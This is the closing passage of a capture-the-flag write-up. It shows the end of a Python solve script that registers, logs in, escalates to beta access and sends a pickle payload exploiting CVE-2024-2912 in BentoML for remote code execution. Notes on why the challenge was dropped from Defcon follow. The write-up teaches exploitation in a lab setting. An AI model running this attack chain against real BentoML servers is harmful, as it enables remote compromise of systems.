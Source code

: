 ```python

    response = requests.post(f"{BASE_URL}/beta", data=payload, headers={
                             "Content-Type": "application/vnd.bentoml+pickle"}, cookies=session_cookies)
    if response.status_code == 200:
        logger.info("Exploit succeeded.")
    else:
        logger.error("Exploit failed.")

if __name__ == "__main__":
    # Generate random username to avoid conflicts
    username = generate_random_username()
    password = "cryptocat_is_the_best"

    # Step 1: Register
    register_cookies = register_user(username, password)

    # Step 2: Login
    login_cookies = login_user(username, password, register_cookies)

    # Step 3: Grant beta access
    grant_beta_access(username, login_cookies)

    # Step 4: Exploit Python Pickle
    exploit(login_cookies)
```
{% endcode %}

### Summary

The challenge required players to [bypass a 403](https://www.youtube.com/watch?v=PvpXRBor-Jw) restriction, escalating their privileges and gaining access to a beta feature. From there they exploited [CVE-2024-2912](https://nvd.nist.gov/vuln/detail/CVE-2024-2912), a Python pickle deserialization vulnerability found in an open-source machine learning library, gaining RCE.

### Conclusion

If you made it this far, here's some bonus trivia 😃 I mentioned we decided against this challenge for Defcon, here's some of the reasoning:

-   **Closed-source**
    -   Players are more likely to fuzz/brute-force, adding strain on infrastructure
    -   If the infra is down/unstable, players can't run a local instance or review the code
-   **Intentional RCE**
    -   More likely to crash
    -   Players may use shell to interfere with the environment
-   **Infrastructure issues**
    -   We normally host challenges on kubernetes so need to separate DB etc for horizontal scaling, or run multiple (ideally per-team) instances for high-traffic
    -   BentoML image is ~10gb, which often timed out on our deployment system

These were the primary reasons. It's better to save a complex challenge for when we aren't all running around a conference on the other side of the world 😅 I also really wanted to do a cool [client-side path traversal (CSPT) demo](https://www.youtube.com/watch?v=yGRRGUtT9MU) for Defcon, which I struggled to make fit here. Originally there was a path traversal instead of 403 bypass to grant beta access but it wasn't a CSPT, more like a blind server-side API traversal that _could_ exist, but wouldn't be common/make a lot of sense.
